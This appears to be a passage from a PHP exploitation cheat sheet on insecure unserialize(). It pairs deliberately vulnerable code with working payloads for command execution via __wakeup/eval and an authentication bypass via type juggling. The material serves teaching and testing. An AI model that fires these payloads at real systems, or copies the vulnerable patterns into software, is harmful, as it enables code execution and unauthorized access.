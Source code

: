 ### Exploit with the __wakeup in the unserialize function

Vulnerable code:

```php
<?php 
    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['r'])){  
        $var1=unserialize($_REQUEST['r']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo ""; # nothing happens here
    }
?>
```

Payload:
```php
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
string(68) "O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}"
```

### Authentication bypass - Type juggling

Vulnerable code:

```php
$data = unserialize($_COOKIE['auth']);

if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
    $admin = true;
} else {
    $admin = false;
}
```

Payload:

```php
a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```

